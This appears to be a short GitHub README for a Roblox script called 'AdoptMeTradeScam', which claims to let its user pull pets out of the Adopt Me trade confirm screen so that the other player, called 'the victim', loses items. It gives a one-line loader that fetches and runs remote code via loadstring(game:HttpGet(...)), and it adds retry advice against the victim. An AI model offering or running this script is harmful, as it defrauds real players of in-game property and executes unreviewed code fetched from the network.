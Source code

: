 Lets you take pets out of the confirm screen on adopt me! (Might get patched soon!)
Tutorial:
1) steps are on the gui after you run the script

NOTE: IF IT DOESNT WORK, STAY IN THE SERVER, WAIT 60 SECONDS THEN TRY AND RE TRADE THE VICTIM.

Last Tested: 28/01/23
script: loadstring(game:HttpGet('https://raw.githubusercontent.com/Penguin284/AdoptMeTradeScam/main/tradescam'))()
